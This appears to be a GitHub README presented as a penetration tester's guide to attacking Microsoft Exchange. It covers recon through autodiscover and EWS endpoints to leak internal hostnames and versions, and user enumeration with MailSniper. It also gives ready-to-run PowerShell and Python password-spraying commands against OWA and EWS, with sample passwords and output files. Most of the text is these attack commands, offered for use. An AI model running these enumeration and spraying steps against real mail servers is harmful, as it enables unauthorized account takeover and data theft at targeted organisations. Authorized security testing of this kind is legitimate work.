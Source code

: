 # exchange penetration testing
The great Microsoft exchange hack: A penetration tester’s guide (exchange penetration testing)


## 1) Recon

* local domain name
  * https://mail.target.ir/autodiscover/autodiscover.json
  * X-CalculatedBETarget: exchange-01.target.local

* exchange version check
  *  https://mail.target.ir/EWS/Exchange.asmx
  *  X-OWA-Version: 15.2.1118.9

* get exchange version
```python
sudo python3 get_exchange_version.py https://mail.target.com
```



## 2) Bruteforce

### use MailSniper enum

```powershell
Import-Module MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname mail.domain.com
```

### Password Spray
* PasswordSprayOWA : will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
* PasswordSprayEWS :  will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.

```powershell
Import-Module MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
```

### python NTLM password Sparay

```python
python3 bruteforce/bruteforce.py -t https://mail.domain.com/EWS/Exchange.asmx -U users.txt -p TestPassword
```



## 3) GAL
The Microsoft Exchange Global Address List (GAL) is a list of all end users and their respective email addresses within an Exchange Server organization that uses Microsoft Outlook for email.
